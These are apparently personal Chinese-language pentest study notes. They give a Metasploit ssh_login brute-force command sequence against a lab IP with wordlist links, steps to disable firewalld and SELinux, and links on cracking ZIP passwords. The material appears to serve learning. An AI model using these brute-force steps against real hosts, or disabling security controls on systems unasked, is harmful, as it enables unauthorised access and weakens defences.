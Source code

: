 user: y，password: 沒有

```
msfconsole
search ssh   ## search scanner/ssh
use auxiliary/scanner/ssh/ssh_login
options
set rhosts [172.16.1.102](target IP)
set stop_on_success true
set user_file users.txt
set pass_file passwords.txt
set verbose true
run
```

[rockyou.txt](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz): https://github.com/praetorian-inc/Hob0Rules

[user.txt](https://github.com/ThomasTJdev/WMD/blob/master/files/user.txt): https://github.com/ThomasTJdev/WMD







#### 關閉防火牆和保護裝置

* `apt install openssh-server`: ssh網路套件安裝 

* `setenforce 0`: 可以暫時關掉上面的防火牆

* `systemctl [action] [server]`: 可以啟動服務，這個命令需要root權限 `su`

  ```
  action: start、stop、restart、status、disable、enable
  server: httpd、sshd、firewalld
  
  systemctl status firewalld  // 查看防火牆狀態
  systemctl disable firewalld  // 之後開機防火牆都會關閉
  systemctl stop firewalld  // 防火牆馬上關閉
  // 後面的 d 代表 daemon  (守護進程)
  ```

* `getenforce`: 確認Linux強大的防火牆有沒有開啟，如果SELINUX選項是enforce，就會讓其他人無法連到，需要跟改系統文件內容

  * `gedit /etc/selinux/config` : 使用圖形化界面修改文件
  * `SELINUX=disabled`
  * 重開機





破解壓縮檔案密碼

[破解ZIP 密碼的四大方法](https://www.monspy.com/crack-zip-password/)

[fcrackzip](https://www.796t.com/article.php?id=254129)

[How to crack zip password on Kali Linux](https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux)
